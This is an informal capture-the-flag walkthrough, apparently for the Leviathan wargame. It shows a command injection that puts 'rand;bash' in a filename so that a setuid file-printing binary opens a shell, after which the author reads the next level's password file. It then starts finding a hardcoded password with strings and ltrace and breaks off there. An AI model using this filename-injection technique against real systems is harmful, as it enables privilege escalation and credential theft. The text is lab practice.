 in Line 2 , it show `snprintf()` , has four parameters and `access("/etc/", 4) = 0`
last parameter take to the third parameter using `%s` format specifier , and then we can blitz like cmd line execution in line 6 `system()` call and try `./printfile /etc/adduser.conf` it showing content , make temp directory using `mktemp -d`

```bash
cd /tmp/tmp.xyIIGjCrrh
touch rand;bash
exit
ls
rand # bash not created
rm rand # removing rand
touch 'rand;bash'
ls
rand;bash # file
```

touch will create like rand;bash and also open sub shell inside terminal and `exit`
so using `'rand;bash'` will create single file as `rand;bash` quoted
The tilde `~` is a Linux "shortcut" to denote a user's home directory , we are using cli injection by `;`

```bash
~/printfile 'rand;bash' # or ~/printfile rand\;bash
/bin/cat: rand: Permission denied
leviathan3@gibson:/tmp/tmp.xyIIGjCrrh$ # look closely we got access
cat /etc/leviathan_pass/leviathan3
```

---

**Level 3:**

`-A 10` refers to first 10 lines

```bash
strings ./level3 | grep -A 10 "password"
```

```c
Enter the password>
;*2$"
secret
GCC: (Ubuntu 11.4.0-1ubuntu1~22.04) 11.4.0
uR	6
uY	c
printf
__off_t
_IO_read_ptr
_chain
strcmp
```

In Line 3 has `secret` let try,

```bash
ltrace ./level3
```
